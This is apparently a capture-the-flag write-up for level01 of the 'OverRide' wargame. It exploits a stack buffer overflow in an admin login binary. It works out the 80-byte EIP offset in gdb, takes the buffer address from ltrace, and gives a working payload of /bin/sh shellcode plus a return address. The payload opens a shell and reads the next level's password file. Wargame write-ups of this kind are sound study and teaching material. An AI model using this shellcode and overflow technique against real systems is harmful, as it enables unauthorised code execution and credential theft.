 # Level 1

Before us we have a binary which represents an admin login prompt.
First, it asks us for the username which it `fgets` into a global variable called `a_user_name`, and if it matches `dat_wil`, we can input a password that is then checked against "admin". This however is just a silly attempt at trolling from wil.
The password will then be read into a 64 bytes buffer with `fgets`, but here fgets will read up to 100 bytes, so we can overflow.

Let's use our trusty [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
```shell
(gdb) r < <(echo 'dat_wil'; sleep .2; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
Starting program: /home/users/level01/level01 < <(echo 'dat_wil'; sleep .2; python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"')
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
We now know that we can override EIP 80 characters in.

Now that we know the offset of the overflow we'll need the address of the password buffer in memory. To accomplish this we can check the return value of the second `fgets` within `ltrace`. 
Note: Some form of address randomization is employed here, so the returned address is subject to changes.
```shell
level01@OverRide:~$ ltrace -e 'fgets' ./level01 < <(echo 'dat_wil'; sleep .2; echo 'deeznuts') 1>/dev/null
fgets("dat_wil\n", 256, 0xf7fcfac0)                                                                = 0x0804a040
fgets("deeznuts\n", 100, 0xf7fcfac0)                                                               = 0xffffd6cc
+++ exited (status 1) +++
```

Let's now inject the buffer address after our 28 bytes [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) and 52 bytes of padding.
```shell
level01@OverRide:~$ (echo 'dat_wil'; python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + "\xcc\xd6\xff\xff"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
[censored]
```
Bingo!
